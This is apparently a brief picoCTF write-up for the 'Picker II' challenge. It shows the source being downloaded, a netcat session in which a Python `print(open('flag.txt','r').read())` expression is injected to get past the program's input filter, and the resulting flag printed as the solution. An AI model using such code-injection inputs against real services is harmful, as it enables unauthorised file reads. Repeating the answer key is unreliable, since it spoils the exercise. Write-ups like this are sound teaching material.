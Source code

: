 ## Introducción
Can you figure out how this program works to get the flag?Connect to the program with netcat:`$ nc saturn.picoctf.net 49844`The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/522/picker-II.py).

1.-Can you do what `win` does with your input to the program?
## Descripción
```
──(kali㉿kali)-[~/p2]
└─$ wget -4 https://artifacts.picoctf.net/c/522/picker-II.py
--2024-11-26 01:24:12--  https://artifacts.picoctf.net/c/522/picker-II.py
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 3.161.55.64, 3.161.55.26, 3.161.55.61, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|3.161.55.64|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3510 (3.4K) [application/octet-stream]
Saving to: ‘picker-II.py’

picker-II.py        100%[==================>]   3.43K  --.-KB/s    in 0s      

2024-11-26 01:24:13 (191 MB/s) - ‘picker-II.py’ saved [3510/3510]

                                                                               
┌──(kali㉿kali)-[~/p2]
└─$ nc saturn.picoctf.net 49844
==> print(open('flag.txt','r').read()) 
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}
'NoneType' object is not callable
                                                                               
┌──(kali㉿kali)-[~/p2]
└─$ 


```

## Solución 
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}